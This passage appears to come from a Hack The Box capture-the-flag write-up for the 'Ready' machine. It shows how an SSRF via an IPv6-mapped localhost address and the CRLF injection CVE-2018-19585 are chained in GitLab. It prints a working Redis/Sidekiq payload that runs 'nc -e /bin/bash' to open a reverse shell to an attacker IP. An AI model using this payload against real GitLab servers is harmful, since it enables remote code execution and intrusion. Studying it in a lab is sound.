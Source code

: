 In the machine, if we use try to import a git repository with the url ```http://[0:0:0:0:0:ffff:127.0.0.1]:5080/dude/ready-channel.git```, we would realize that we are able to import the repository. This proves that the SSRF vulnerability exists.

![Gitlab SSRF](https://github.com/joelczk/writeups/blob/main/HTB/Images/Ready/gitlab_ssrf.png)

Secondly, CVE-2018-19585 is a CRLF Injection on gitlab. This means that if we attempt to import the following gitlab url (```git://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git```), it will be converted to the following as shown in the snippet below.T his would mean that we can use the CRLF Injection vulnerability to execute other commands to generate a reverse shell.

```
git://127.0.0.1:333/
test
blah.git
```

Combining the 2 CVEs, we will devise a payload as soon in the snippet below. In the payload below, we are making use of redis that can background job queues. The background job queues in Redis is being handled by Sidekiq which contains a ```system_hook_push``` function that is used to handle new jobs, which we will use in the payload. Next, we will find a gadget that can be used to execute our code and commands. In this case, we are able to find a ```GitlabShellWorker``` class that can execute our code and commands.

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.16.3 4000\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

Lastly, all we have to do is to replace the payload in the request body with the exploit payload to create a reverse shell.

